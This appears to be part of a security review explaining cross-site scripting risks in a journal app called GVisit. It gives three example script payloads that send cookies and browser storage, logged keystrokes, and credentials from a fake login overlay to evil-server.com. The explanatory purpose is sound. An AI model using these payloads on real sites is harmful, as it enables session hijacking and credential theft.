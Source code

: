 # Deep Dive: Security Vulnerabilities in GVisit

## 1. 🚨 XSS (Cross-Site Scripting) - The Silent Data Thief

### What Could Actually Happen?

#### Scenario 1: Session Hijacking
```javascript
// Attacker enters this in their journal:
<script>
fetch('https://evil-server.com/steal', {
  method: 'POST',
  body: JSON.stringify({
    cookies: document.cookie,
    localStorage: JSON.stringify(localStorage),
    sessionStorage: JSON.stringify(sessionStorage),
    url: window.location.href
  })
});
</script>
```
**Result**: Attacker gets your session cookie and can impersonate you!

#### Scenario 2: Keylogger Injection
```javascript
<script>
document.addEventListener('keypress', function(e) {
  fetch('https://evil-server.com/keylog?key=' + e.key);
});
</script>
```
**Result**: Every key you press is sent to the attacker (passwords, private journal entries, etc.)

#### Scenario 3: Phishing Attack
```javascript
<script>
// Create fake login form that looks real
document.body.innerHTML = `
<div style="position:fixed;top:0;left:0;width:100%;height:100%;background:white;z-index:9999">
  <form action="https://evil-server.com/phish" method="post" style="margin:100px auto;width:300px">
    <h2>Session Expired - Please Login Again</h2>
    <input type="text" name="username" placeholder="Username">
    <input type="password" name="password" placeholder="Password">
    <button type="submit">Login</button>
  </form>
</div>`;
</script>
```
**Result**: User thinks they need to re-login and sends credentials to attacker!
